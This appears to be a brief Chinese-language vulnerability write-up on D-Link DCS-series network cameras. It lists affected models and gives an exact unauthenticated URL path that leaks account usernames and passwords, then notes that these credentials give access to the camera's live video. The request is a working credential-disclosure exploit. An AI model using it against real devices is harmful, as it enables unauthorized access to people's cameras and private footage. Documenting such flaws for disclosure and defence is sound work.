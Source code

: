 # 0x00 软件介绍
D-Link DCS系列：D-Link是一家台湾科技公司，中文名：友讯科技，其旗下的DCS系列是畅销的网络摄像机

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
DCS-2530L  
DCS-2670L  
DCS-4603  
DCS-4622  
等多个DCS系列系统

# 0x04 漏洞复现
访问http://xxx.xxx.xxx.xxx/config/getuser?index=0会泄露账号和密码

使用账号密码登陆后即可查看摄像头的监控画面  
![image](./pic/0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg
